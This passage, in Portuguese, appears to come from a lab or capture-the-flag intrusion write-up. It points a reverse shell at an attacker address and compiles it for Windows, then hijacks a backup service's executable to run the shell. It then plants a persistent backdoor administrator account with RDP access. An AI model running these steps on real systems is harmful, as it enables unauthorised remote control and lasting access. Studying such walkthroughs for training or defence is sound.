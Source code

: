 Após baixar a shell precisamos fazer algumas configurações
1. `./change_client.sh 12.100.1.8 9009`
	-  Esse IP é o da VPN (aquele arquivo que capturamos, lembra?)
	  
2. `i686-w64-mingw32-gcc-win32 -std=c99 windows.c -o rsh.exe -lws2_32`
	- `i686-w64-mingw32-gcc-win32` → Compilador MinGW para gerar binários 32-bit Windows.
	- `-std=c99` → Usa a especificação C99.
	- `-o rsh.exe` → Define o nome de saída como `rsh.exe`.
	- `-lws2_32` → Faz **link com a biblioteca de sockets do Windows** (`ws2_32.lib`), necessária para usar `socket()`, `connect()`, etc.
	  
3. Agora precisamos enviar para a máquina. O Método que eu usei foi o abrindo um servidor com o Python (atacante) e baixando (vítima)

Após concluir esses passos, é necessário mover o arquivo `rsh.exe` para a pasta do serviço de backup, renomeando-o para `Full.exe`, e então iniciar o serviço com o comando `net start backup`.

![](img/39842fa09069d23e7a7e88c6951952d6.png)

## 7.5 Persistindo

`net user antr4x 'invasao140!@' /add`
![](img/c63486cfc1b62d6abcce93682084555e.png)

`net localgroup Administrators antr4x /add`
![](img/b671a84bcf0e7fec4819b18972b30b1e.png)

`net localgroup "Remote Desktop Users" antr4x /add`
![](img/24b86fb2701e51f87e0d2bca5ecf43e1.png)
